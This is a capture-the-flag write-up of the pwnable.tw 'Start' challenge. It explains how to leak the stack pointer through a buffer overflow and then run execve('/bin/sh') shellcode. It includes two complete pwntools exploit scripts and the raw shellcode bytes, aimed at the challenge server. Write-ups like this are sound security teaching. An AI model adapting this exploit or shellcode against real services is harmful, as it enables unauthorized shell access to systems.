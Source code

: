 ```yaml
---
layout: post
author: tourpran
title: Start - pwable.tw
categories: writeup
tags: ["pwnable.tw"]
---
```


![](/assets/images/pwnabletw1/pwnable1.png)

#### AIM:
Hey guys, Here our main objective is to get a shell and then to get the flag !!
I have tried my best to explain the challenge. Hope you like it !!

### Solution:

First I check the mitigations :

![](/assets/images/pwnabletw1/pwnable2.png)

So I think it's going to be fun !! As we have the permission to execute the stack (NX disabled). There is also no PIE so we don't have to worry about the address changing every time :)
Now, let us run the binary and see what is happening :>

![](/assets/images/pwnabletw1/pwnable3.png)

So it's simple just asking input and printing something. Now its time to see the assembly behind this binary.

![](/assets/images/pwnabletw1/pwnable4.png)

So we can observe that all the registers are being emptied and then 5 values are beings pushed to the stack.
If we examine them we can see that they are the strings that are printed when we run the binary.
Math → 5 pushes are made and 4 bytes are taken for each push so a total of 20 bytes is taken by the binary to store it :P.
Also ``INT 0x80`` is equivalent to syscall. We can observe 2 syscalls being called

![](/assets/images/pwnabletw1/pwnable5.png)

The first syscall is used to make the write. (For printing the string)

![](/assets/images/pwnabletw1/pwnable6.png)

The second syscall is used to call read ( Probably to take our input ). Now let's see what we can do to get root access !!

I hope you find the offset by yourself or try pattern create in gdb-peda. :)

#### Idea:

* We have to overflow to the return address and then we have to somehow leak the stack pointer (ESP)
* So if we get the stack pointers address then we can place the shellcode there and then point the EIP to that address to give us a shell!

``Remember the write syscall prints the buffer pointed by the ECX.``

* After the syscall, the stack is cleared as they call the add instruction (It removes the 20 bytes)

#### Crafting the Exploit:

* first 20 bytes to fill the buffer then put the address of move ESP to ECX.
* So first input will give the ESP.
* Next, we place the shellcode (from shellstorm.org) then execute it.
* We don't have to worry about the shift of the stack because there is no PIE

```py
from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
print hex(esp)
p.interactive()

```

note: u32 is the opposite of p32 this returns the number and then we convert the number to hex. Also, we read the first 4 bytes the server sends us.

Output: ``0xff819750``

#### Final Exploitation

* We place the shellcode then just execute it, in the read that followed the write.

```py

from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
#new exploit
buf = 'a'*20
buf += p32(esp+20)
buf += shellcode
p.send(buf)
p.interactive()

```

![](/assets/images/pwnabletw1/pwnable7.png)

I hope you liked the write-up. More writeups on its way.
